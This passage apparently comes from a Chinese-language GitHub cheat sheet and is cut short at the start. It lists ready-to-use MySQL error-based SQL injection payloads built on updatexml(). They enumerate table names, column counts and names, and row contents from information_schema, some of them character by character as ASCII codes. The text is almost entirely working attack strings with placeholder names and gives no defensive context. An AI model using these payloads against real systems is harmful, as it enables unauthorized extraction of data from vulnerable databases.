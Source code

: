 #### 获取表名ASCII码

```mysql
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(table_name,第x位,1)))FROM(information_schema.tables)WHERE(table_schema='数据库名') limit 第x个数表,1),0x7e),1)
```

#### 获取字段数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名')),0x7e),1)
```

#### 获取字段长度

```mysql
updatexml(1,concat(0x7e,(SELECT(LENGTH(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```

#### 获取字段名

```mysql
updatexml(1,concat(0x7e,(SELECT(CONCAT(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```

#### 获取字段名ASCII码

```mysql
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(column_name,第x位,1)))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```

#### 获取数据数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(字段名))FROM(数据库名.表名)),0x7e),1)
```

#### 获取数据内容长度

```mysql
updatexml(1,concat(0x7e,(SELECT(LENGTH(字段名))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```

#### 获取数据内容

```mysql
updatexml(1,concat(0x7e,(SELECT(CONCAT(字段名))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```

#### 获取数据内容ASCII码

```mysql
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(字段名,第x位,1)))FROM(数据库名.表名) limit 第x条数据,1),0x7e),1)
```

